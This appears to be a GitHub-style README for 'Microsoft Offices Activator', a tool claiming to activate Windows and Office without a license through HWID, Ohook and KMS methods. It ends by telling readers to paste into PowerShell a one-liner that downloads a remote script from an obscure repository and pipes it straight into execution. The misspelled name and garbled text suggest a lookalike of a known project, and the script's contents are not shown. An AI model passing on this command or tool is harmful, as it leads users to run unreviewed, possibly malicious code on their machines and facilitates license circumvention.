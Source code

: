 ![MOA](https://github.com/user-attachments/assets/5851bf75-870c-43d9-ac33-9cd090604aee)
# Microsoft Offices Activator (MOA)

A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections
Features
HWID (Digital License) Method to Permanently Activate Windows
Ohook Method to Permanently Activate Office

KMS38 Method to Activate Windows/Server Till the Year 2038

Online KMS Method to Activate Windows/Server/Office For 180 Days (Lifetime With Renewal Task)

Advanced Activation Troubleshooting

$OEM$ Folders For Preactivation

Change Windows Edition

Check Windows/Office Activation Status

Available in All In One and Separate Files Versions

Fully Open Source and Base

# PowerShell

Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).

Copy and paste the code below and press enter

# irm https://raw.githubusercontent.com/0x3c62723e/MOA/main/git.ps1 | iex
